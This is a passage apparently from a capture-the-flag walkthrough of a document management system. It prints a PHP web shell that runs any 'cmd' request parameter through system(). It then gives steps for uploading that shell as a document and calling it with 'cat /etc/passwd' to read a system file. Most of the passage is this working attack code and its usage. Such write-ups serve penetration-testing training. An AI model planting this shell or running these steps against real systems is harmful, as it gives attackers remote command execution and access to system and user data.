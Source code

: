 ```php
PHP Backdoor Code:
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

```text
Step 3: Now after uploading the file check the document id corresponding to the document.
Step 4: Now go to example.com/data/1048576/"document_id"/1.php?cmd=cat+/etc/passwd to get the command response in browser.
```

Save the above php code to a file, then back on the dms site navigate Michelle's folder:

![pit-michelle](/assets/images/2021-09-25-17-53-40.png)

Click on Add document, and then we can upload our shell:
